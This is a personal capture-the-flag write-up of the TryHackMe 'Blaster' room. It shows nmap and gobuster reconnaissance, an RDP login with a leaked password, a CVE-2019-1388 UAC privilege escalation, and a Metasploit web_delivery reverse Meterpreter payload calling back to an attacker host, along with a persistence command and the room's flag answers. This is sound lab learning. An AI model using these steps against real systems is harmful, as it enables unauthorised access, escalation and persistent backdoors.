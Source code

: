 # Blaster

author:: Nathan Acks  
date:: 2021-12-06

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

## Mission Start!

The CTF background notes that we'll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we'll be attacking is at 10.10.223.185. As usual, we'll start out with an nmap scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln \
          -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? - 2

Looks like IIS running on port 80. Let's go take a peek.

...And, it's just the default IIS "hello world" page. Looks a damn sight prettier than Apache's.

FLAG 2: What is the title of the webserver's index page? - IIS Windows Server

Since there's nothing obvious here (and because the CTF is prompting us to do so), let's sic gobuster on this to see if there's anything interesting that's not linked to the (default) index page.

```bash
gobuster \
	-t 10 dir \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
	-u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? - /retro

Browsing to this directory reveals an entire "Retro Fanatics" website. All posts are by "Wade".

FLAG 4: What username is associated with this hidden directory? - Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade's password?

FLAG 5: What potential password is associated with this user? - parzival

Let's load up XFreeRDP and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore \
         /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? - `THM{HACK_PLAYER_ONE}`

* [Using "nmap"](nmap.md)
* [Using "gobuster"](gobuster.md)
* [Using XFreeRDP](xfreerdp.md)

## Breaching the Control Room

There's no obvious files when pocking around except an hhupd.exe file on the desktop, and IE's history is empty.

Since I know we're looking for a CVE name, at this point I just used the Windows File Explorer to search Wade's home directory for "CVE". And lo-and-behold, there's a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of the MITRE CVE page on CVE-2019-1388).

FLAG 7: What CVE was the initially compromised user researching? - CVE-2019-1388

(I feel like the approach I just used - making an educated guess about what the CTF was looking for and then just searching for it - is kind of a cop-out. *But*, the hint for this question states that I should check IE's history, which I did... So perhaps the room's broken?)

Anyways, I'm guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it's badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? - hhupd.exe

In fact, a search for "CVE-2019-1388 exploit" pulls up a page that references hhupd.exe and helpfully links to a YouTube video demoing how this exploit works. It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user's exploit? - `nt authority\system`

The final flag is in the Administrator's Desktop folder.

FLAG 10: What are the contents of `root.txt`? - `THM{COIN_OPERATED_EXPLOITATION}`

* [CVE-2019-1388 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)
* [CVE-2019-1388 (nagenrauft-consulting.com)](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/)
* [CVE-2019-1388: Windows Privilege Escalation Through UAC](https://www.youtube.com/watch?v=3BQKpPNlTSo)

## Adoption into the Collective

Target information isn't immediately obvious in Metasploit; after selecting `exploit/multi/script/web_delivery` we'll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in Metasploit? - 2

Let's set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get Metasploit to deliver the exploit on the right interface.)

This particular exploit outputs and encoded PowerShell script and then starts a local listener to deliver the actual Meterpreter shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of Meterpreter *and* the `run -j` command. I'm not sure why...)

FLAG 12: What command can be used in Meterpreter to establish on-boot persistence on this machine? - `run persistence -X`

(NOTE: Meterpreter flags this as being deprecated now; the modern pattern seems to be to background Meterpreter and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

* [Using Metasploit](metasploit.md)
* [Using PowerShell](powershell.md)

ELAPSED TIME: 2 h 15 min
